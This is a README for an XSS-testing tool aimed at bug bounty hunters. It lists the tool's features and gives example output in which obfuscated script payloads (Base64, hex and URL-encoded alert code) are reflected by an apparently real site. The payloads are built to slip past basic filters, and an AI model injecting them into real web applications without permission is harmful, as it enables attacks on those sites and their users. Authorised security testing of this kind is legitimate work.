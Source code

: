 # bug-bounty-xss-injector

This Python-based tool is designed for security researchers and bug bounty hunters to identify cross-site scripting (XSS) vulnerabilities in web applications. This script automates the process of injecting various obfuscated XSS payloads into a target web application and analyzes whether the payloads are reflected in the server response, indicating a possible XSS vulnerability.

**Automated XSS Testing** - The script automatically injects payloads into a specified parameter to test for XSS vulnerabilities. 

**Obfuscation Techniques** – Uses Base64, Hex, and URL encoding to bypass basic security filters.

**Reflection Detection** – Checks if the injected payload appears in the server's response, a key indicator of reflected XSS.

**Customizable Input** – Allows the user to specify the target URL, request method (GET/POST), and parameter name.

**Logging** – Saves test results, including detected reflections, into a log file for further analysis.

**Bug Bounty Friendly** – Includes an HTTP header field (BugBounty-Researcher) to identify the researcher when testing within responsible disclosure programs.

## Example Usage
```
Enter target URL: https://<your_targeted_web_application>
Enter your bug bounty email: <researcher_handle>@<your_bugbounty_researcher_email.com
Enter request method (GET/POST): GET
Enter parameter name (e.g., 'q', 'input'): q
```
## Example Output
```
[+] Payload reflected: <script>eval(atob('Jmx0O3NjcmlwdCZndDthbGVydCgnaW5qZWN0ZWQnKTsmbHQ7L3NjcmlwdCZndDs='));</script>
Response snippet:
<!DOCTYPE html>
<html
lang="en"
dir="ltr"
data-action="Search-Show"
data-querystring="q=%3Cscript%3Eeval(atob(&amp;#x27;Jmx0O3NjcmlwdCZndDthbGVydCgnaW5qZWN0ZWQnKTsmbHQ7L3NjcmlwdCZndDs%3D&amp;#x27;))%3B%3C%2Fscript%3E"   
data-siteid="THIS_HAS_BEEN_LEFT_OUT_FOR_CONFIDENTIAL_REASONS"
data-locale="en_US"
>
<head>
<meta charset="UTF-8"/>
----------------------------------------
[-] Payload not reflected: <script>eval('\x3c\x73\x63\x72\x3c\x73\x63\x72\x69\x70\x74\x3e\x69\x70\x74\x3e\x61\x6c\x65\x72\x74\x28\x27\x69\x6e\x6a\x65\x63\x74\x65\x64\x27\x29\x3b\x3c\x2f\x73\x63\x72\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e\x69\x70\x74\x3e');</script>
----------------------------------------
[+] Payload reflected: <script>window.location=decodeURIComponent('alert%28%27injected%27%29%3B');</script>
Response snippet:
<!DOCTYPE html>
<html
lang="en"
dir="ltr"
data-action="Search-Show"  
data-querystring="q=%3Cscript%3Ewindow.location%3DdecodeURIComponent(&amp;#x27;alert%2528%2527injected%2527%2529%253B&amp;#x27;)%3B%3C%2Fscript%3E"
data-siteid="THIS_HAS_BEEN_LEFT_OUT_FOR_CONFIDENTIAL_REASONS"
data-locale="en_US"
>
<head>
<meta charset="UTF-8"/>
```

## This tool is intended only for ethical hacking and responsible bug bounty research.  Do not use this tool on systems you do not own or have explicit permission to test.  Ensure all testing is compliant with the web application’s security policy.
